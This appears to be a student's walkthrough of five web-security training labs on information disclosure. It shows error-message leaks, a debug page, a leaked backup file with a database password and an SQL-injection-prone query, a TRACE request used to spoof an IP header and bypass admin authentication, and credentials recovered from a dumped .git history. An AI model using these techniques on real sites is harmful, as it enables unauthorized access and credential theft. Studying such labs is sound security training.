# Information disclosure - Sensitive Data Exposure



- Information disclosure, also known as information leakage, is when a website unintentionally reveals sensitive information to its users. 
- Depending on the context, websites may leak all kinds of information to a potential attacker, including:
	- Data about other users, such as usernames or financial information
	- Sensitive commercial or business data
	- Technical details about the website and its infrastructure
## Lab 1 : Information disclosure in error message






- We just have to some how invoke error and it will reveal some error code along with some info,

```http
https://0a3e00cf03a03559804026700079003d.web-security-academy.net/product?productId=1
```

- Make `productId=1` to `productId=abc` and we got version



- Submit it and we solved the lab


## Lab 2 : Information disclosure on debug page


- After accessing the index page we will see `source code` using `view-source` and what i find is that one interesting comment,
- It is a path of `PHPINFO` page which has `SECRET`

```html
<!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
```





- By submitting this key, we solve the lab. 

```
wt30ohe9kx8idw7a8joy6f8er9yrzrqo
```



## Lab 3 : Source code disclosure via backup files



- After accessing lab we will try to access the `robots.txt` and we find one entry,



- In this directory we find another file which `backup java file`,
- Which have `database password` indeed.



```java
package data.productcatalog;

import common.db.JdbcConnectionBuilder;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.sql.Connection;
import java.sql.ResultSet;
import java.sql.SQLException;
import java.sql.Statement;

public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;

    private final String id;
    private transient Product product;

    public ProductTemplate(String id)
    {
        this.id = id;
    }

    private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException
    {
        inputStream.defaultReadObject();

        ConnectionBuilder connectionBuilder = ConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "136c1aibxmmgd8lbzshi2pch3koui6u5"
        ).withAutoCommit();
        try
        {
            Connection connect = connectionBuilder.connect(30);
            String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
            Statement statement = connect.createStatement();
            ResultSet resultSet = statement.executeQuery(sql);
            if (!resultSet.next())
            {
                return;
            }
            product = Product.from(resultSet);
        }
        catch (SQLException e)
        {
            throw new IOException(e);
        }
    }

    public String getId()
    {
        return id;
    }

    public Product getProduct()
    {
        return product;
    }
}
```

- Here is the Database Password, and by submitting this we solve the lab 

```
136c1aibxmmgd8lbzshi2pch3koui6u5
```



## Lab 4 : Authentication bypass via information disclosure




- We have to login using given creds,
	- `wiener:peter`



- Now after this i tried to capture the `/admin` req and i got unauthorized,



- So i tried use `TRACE` request (TRACE used for  diagnostic purposes and it often harmless, but occasionally leads to the disclosure of sensitive information)  

- Request

```http
TRACE /admin HTTP/1.1
Host: 0a9e006e04ba1e238121433e003b0082.web-security-academy.net
Connection: keep-alive
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=bN36B0fXMd5ziHba3JN6YQGKGU7TcXfP
```

- Response

```http
HTTP/1.1 200 OK
Content-Type: message/http
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 802

TRACE /admin HTTP/1.1
Host: 0a9e006e04ba1e238121433e003b0082.web-security-academy.net
Connection: close
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=bN36B0fXMd5ziHba3JN6YQGKGU7TcXfP
X-Custom-IP-Authorization: 14.139.110.137
```



- This is interesting header which leaks the information which tells that it is doing `IP Based Authentication` for admin access which can be bypass.

```http
X-Custom-IP-Authorization: 14.139.110.137
```

- We take this header and put it into our request and make the IP as `127.0.0.1` which means it will allow this host,

```http
X-Custom-IP-Authorization: 127.0.0.1
```

- Whole GET Request with above header,

```http
GET /admin HTTP/1.1
Host: 0a9e006e04ba1e238121433e003b0082.web-security-academy.net
Connection: keep-alive
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=bN36B0fXMd5ziHba3JN6YQGKGU7TcXfP
X-Custom-IP-Authorization: 127.0.0.1
```



- We will just simple add this parameters to delete `carlos` user to solve lab,

```http
GET /admin/delete?username=carlos
```





## Lab 5 : Information disclosure in version control history



- Our aim is to gain password of `administrator` and delete the `carlos` user,
- So i find for some sensitive directories and found one which is `.git`.



- I found some data inside config file,


```yml
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[user]
	email = carlos@carlos-montoya.net
	name = Carlos Montoya
```

- There is another commit file which looks sensitive `COMMIT_EDITMSG` and it has this msg.


- To dump this whole `.git` i used `git-dumper` tool and dump it for better look,




- Now we can see `git` logs and previous `commits` and `diff`, and from there we found password of administrator,



- Here is `administrator:0ic26vp708alt77qexyz` creds so we can log in with this and delete `carlos` user,





